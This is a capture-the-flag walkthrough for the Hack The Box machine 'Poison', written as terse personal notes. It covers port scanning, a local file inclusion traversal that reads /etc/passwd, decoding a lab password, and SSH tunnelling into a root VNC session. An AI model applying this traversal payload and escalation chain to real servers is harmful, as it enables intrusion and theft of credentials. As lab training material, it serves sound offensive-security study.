 - ping machine
	- `ping 10.10.10.84`
	- machine is up
- autorecon 
```bash

```
- nmap for open ports
	- `nmap -p- -T4 --open -Pn -vvv ###.###.###.### -oN nameNmap.txt`
	- 22 
	- 80
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -T4 --open -Pn -vvv 10.10.10.84 -oN poisonNmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-15 08:53 EST
Initiating SYN Stealth Scan at 08:53
Scanning poison.htb (10.10.10.84) [65535 ports]
Discovered open port 22/tcp on 10.10.10.84
Discovered open port 80/tcp on 10.10.10.84
Completed SYN Stealth Scan at 08:54, 52.95s elapsed (65535 total ports)
Nmap scan report for poison.htb (10.10.10.84)
Host is up, received user-set (0.061s latency).
Scanned at 2024-12-15 08:53:16 EST for 53s
Not shown: 54999 filtered tcp ports (no-response), 10534 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 53.01 seconds
           Raw packets sent: 127670 (5.617MB) | Rcvd: 20267 (2.786MB)
```
- nmap for services and versions running on open ports
	- `nmap -p port#, port#, port# -sC -sV ###.###.###.### -oN nameServicesVersionsNmap` 
	- 22 openssh 7.2
	- 80 Apache 2.4.29
```bash
┌──(kali㉿kali)-[~/htb/poison]
└─$ nmap -p 22,80 -sC -sV 10.10.10.84 -oN poisonServicesVersionsNmap    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-15 09:06 EST
Nmap scan report for poison.htb (10.10.10.84)
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.94 seconds

```
	- 
- Gobuster to enumerate website if machine has 80 or 443
	- `gobuster dir -u http://precious.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -o nameGobuster.txt -t 10 -x  ??PHP, HTM, HTML, ASP, TXT, JS, CSS??` 
	- info.php
		- FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
	- 
- search for exploits, RCEs, etc on service's versions running on those open ports
	- SearchSploit
	- Metaspolit
	- document
- Foothold
	- sudo -l
- visiting 10.10.10.84:80
	- reveals temporary website to test local .php scripts
	- ![[Pasted image 20241222162527.png]]
	- submitting listfiles.php reveals pwdbackup.txt
	- ![[Pasted image 20241222162833.png]]
	- manually changing url and replacing listfiles.php with pwdbackup.txt reveals a password that's been encoded 13 times. The equal sign at the end is a dead giveaway that it's base64 encoded
	- ![[Pasted image 20241222163742.png]]
	- We can take this encoded text and base64 decode it 13 times and then we'll be left with actual password
	- We have to copy and past it into a text file to decode it. For this I just used vim. 
	- use base64 to decode it 13 times and we get Charix!2#4%6&8(0
	```bash
┌──(kali㉿kali)-[~/htb/poison]
└─$ cat poisonPasswd.txt | base64 -d | base64 -d | base64 -d | base64 -d  | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
Charix!2#4%6&8(0
```
	- the `?file=pwdbackup.txt` is an indication that Local File Inclusion exist
	- testing LFI by removing backup.txt and replacing with ../../../../../../../../../../../etc/passwd. reveals the etc/passwd file with charix as a user. so we are assuming that this is Charix's passwd
	- ![[Pasted image 20241222172620.png]]
	```bash
	
```
	- Login in via ssh as charix / Charix!2#4%6&8(0
	- cat user.txt flag in home directory
	- secret.zip in home directory
	- running scp on kali machine, pulling secret from target machine
	```bash
┌──(kali㉿kali)-[~/htb]
└─$ scp charix@10.10.10.84:/home/charix/secret.zip ./secret.zip
```
	- unzip secret on kali machine
	```bash
┌──(kali㉿kali)-[~/htb/poison]
└─$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
                                                                                                                                          
┌──(kali㉿kali)-[~/htb/poison]
└─$ cat secret
��[|Ֆz!
```

- Using sockstat to search the target machine for processes listening locally
	- we find XVNC running on 5901 and 5801
```bash
charix@Poison:~ % sockstat -4 -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS      
root     sendmail   642   3  tcp4   127.0.0.1:25          *:*
www      httpd      641   4  tcp4   *:80                  *:*
www      httpd      640   4  tcp4   *:80                  *:*
www      httpd      639   4  tcp4   *:80                  *:*
www      httpd      638   4  tcp4   *:80                  *:*
www      httpd      637   4  tcp4   *:80                  *:*
root     httpd      625   4  tcp4   *:80                  *:*
root     sshd       620   4  tcp4   *:22                  *:*
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    390   7  udp4   *:514                 *:*

```

- Using ssh establish a local port forwarding tunnel
	- create a secure tunnel where traffic sent to local port on my attack machine is forwarded through ssh to remote port on the target machine
	- `ssh -L [local_port]:[remote_host]:[remote_port] [username]@[remote_host]`
```bash
──(kali㉿kali)-[~/htb/poison]
└─$ ssh -L 3000:127.0.0.1:5901 charix@10.10.10.84
(charix@10.10.10.84) Password for charix@Poison:
Last login: Sat Dec 28 19:16:28 2024 from 10.10.14.3
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017
...
```
- what the above does
- Traffic directed to 127.0.0.1:3000 on my local machine is securely tunneled through ssh to 127.0.0.1:5901 on the remote machine (10.10.10.84)

- now we use vncviewer & pass the secret to log in as root
```bash
┌──(kali㉿kali)-[~]
└─$ vncviewer -passwd secret 127.0.0.1::3000  
```

- cp root.txt to charix and change the permissions for them to cat
- `cp /root/root.txt /home/charix/root.txt; chmod 777 /home/charix/root.txt`




















